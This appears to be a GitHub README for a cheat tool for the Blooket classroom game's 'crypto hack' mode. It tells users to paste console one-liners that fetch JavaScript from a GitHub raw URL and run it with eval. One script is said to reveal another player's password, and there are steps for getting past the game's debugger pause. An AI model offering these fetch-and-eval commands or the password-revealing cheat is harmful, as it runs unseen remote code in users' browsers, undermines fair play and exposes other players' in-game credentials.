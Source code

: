 This cheat only works in crypto hack game mode!

# Paused in debugger
if you run one of the codes and get this: ![image](https://user-images.githubusercontent.com/73669084/133943133-af7cc9b8-75ab-496c-a17e-5851b6d7ff63.png) don't worry all you have to do is go to the sources tab: ![image](https://user-images.githubusercontent.com/73669084/133943102-701b0737-b0ca-4ccd-b533-e782c7767447.png) and click this: ![image](https://user-images.githubusercontent.com/73669084/133943169-2897f143-258f-49d8-81e3-181ffe857c8e.png) top right, lastly click this: ![image](https://user-images.githubusercontent.com/73669084/133943122-bc762f73-8522-435a-abb8-905233c95ebe.png) to get out of debugger


# getCrypto.js
Open console (ctrl + shift + j) and pase the following:
```js
fetch("https://raw.githubusercontent.com/glixzzy/blooket-cheat/main/crypto/getCrypto.js").then((res) => res.text().then((t) => eval(t)))
```

# hackOtherUsersPassword.js
This exploit lets you hack another users password, so it basically just gives you the right password lol

Open console (ctrl + shift + j) and pase the following:
```js
fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/crypto/hackOtherUsersPassword.js").then((res) => res.text().then((t) => eval(t)))
```
